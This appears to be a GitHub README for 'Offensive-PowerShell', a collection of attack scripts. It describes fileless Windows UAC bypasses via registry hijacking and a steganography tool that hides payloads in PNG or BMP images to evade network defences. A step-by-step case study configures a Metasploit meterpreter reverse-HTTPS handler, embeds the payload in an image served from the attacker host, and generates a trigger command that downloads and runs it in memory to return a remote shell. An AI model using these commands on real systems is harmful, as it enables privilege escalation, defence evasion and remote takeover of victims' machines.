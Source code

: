 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

  1 - Hide a PAYLOAD inside of a image (with a good resolution);
  2 - Store the image on a Webserver that target have access;
  3 - Run the trigger (powershell command line) on the target;
    * The target will download the image to the memory;
    * The payload will be extract on the memory;
    * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
  4 - Receive your shell.


### CASE STUDY - Hiding a meterpreter payload inside of image.  

  1 - Open the msfconsole.
  msfconsole

  2 - Select and configure the web_delivery exploit.
  use exploit/multi/script/web_delivery  
  set windows/meterpreter/reverse_https
  set target 2
  set srvport 80
  set uripath /report
  set LHOST <IPADDRESS>
  set LPORT 443
  exploit

  3 - From your Windows machine download the powershell script from web_delivery.
  iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

  4 - Open the powershell and import the Set-Powerstego.ps1.
  Import-Module Set-Powerstego.ps1

  5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
  Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

  6 - Hide de payload inside the image.
  Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

  7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
  cd imagefolder
  pythom -m SimpleHTTPServer 8080

  8 - From the Windows workstation extract the payload to the disk.
  Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

  Open the file report2 and compare with the file report.  

  9 - Generate a command line to execute the payload on the target.
  Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

  Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
  After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.
